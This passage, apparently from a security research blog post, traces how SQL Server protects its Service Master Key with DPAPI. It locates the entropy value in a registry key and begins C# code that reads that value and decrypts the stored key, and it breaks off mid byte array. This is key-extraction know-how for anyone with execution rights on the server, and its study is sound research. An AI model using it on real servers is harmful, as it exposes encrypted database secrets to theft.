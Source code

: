 We know that a Database Master Key is encrypted using the Service Master Key. We also know from Microsoft’s documentation that this is likely protected using the data protection APIs (DPAPIs), which means that if we add a breakpoint on `CryptUnprotectData` / `CryptProtectData` and create a new DMK, we are in with a shot of seeing where in SQL Server is responsible for using the SMK.

To create the new key we use:

```sql
CREATE MASTER KEY ENCRYPTION BY PASSWORD='Password123'
```

And we hit a breakpoint with a valuable stack trace:

![](https://miro.medium.com/v2/resize:fit:700/1*LxvimIPbKozL29UVEzNAmA.png)<br>

Here we see two method calls which tell us a story:

`CSECDBMasterKey::Decrypt`

`CSECServiceMasterKey::Initialize`

This makes sense, because we know that the SMK is used to decrypt the DMK and the DPAPI should protect the SMK.

We can pull out the arguments to `CryptoUnprotectData` and find the following value being decrypted:

![](https://miro.medium.com/v2/resize:fit:700/1*LUp2s6j5tHy55NRuWR-bjg.png)<br>

And if we use the following TSQL query:

```sql
SELECT * FROM master.sys.key_encryptions
```

We find that the encrypted SMK matches the encrypted key stored in the `master` database:

![](https://miro.medium.com/v2/resize:fit:700/1*n6kSaYov0cY3c1RuSqA9Pw.png)<br>

Another caveat is a value passed to `CryptUnprotectData` as the optional entropy value. After a bit of digging, we find that this value is taken from the registry key:

```reg
HKLM\SOFTWARE\Microsoft\Microsoft SQL Server\MSSQL14.MSSQLSERVER\Security
```

So what does this mean? Well, if you have execution rights on a machine running SQL Server, we can use the following C# to recover the SMK:

```cs
using System;
using System.Security.Cryptography;
using Microsoft.Win32;

namespace ConsoleApp1
{
    internal class Program
    {
        static void Main(string[] args)
        {
            // Read registry key
            var rk = Registry.LocalMachine.OpenSubKey(@"SOFTWARE\\Microsoft\\Microsoft SQL Server\\MSSQL14.MSSQLSERVER\\Security");
            byte[] entropy = (byte[])rk.GetValue("Entropy", new byte[] { 0x41 });
            // SQL Encrypted SMK (minus the first 8 bytes)
            byte[] encryptedData = new byte[]
            {
                0x01, 0x00, 0x00, 0x00, 0xD0, 0x8C, 0x9D, 0xDF, 0x01, 0x15, 0xD1, 0x11, 0x8C, 0x7A, 0x00, 0xC0, 0x4F, 0xC2, 0x97, 0xEB, 0x01, 0x00, 0x00, 0x00, 0xAC, 0x5E, 0xB2, 0x87, 0xF5, ... 0x8E, 0x50, 0x44, 0xFA, 0xDC, 0xBE, 0x47, 0x88, 0x16, 0x57, 0xBF, 0xCB, 0xB3, 0x56, 0x7B, 0x43, 0x86, 0x68, 0x31, 0x7E, 0x30, 0xE3, 0xE4, 0x3A, 0x14, 0xB4
```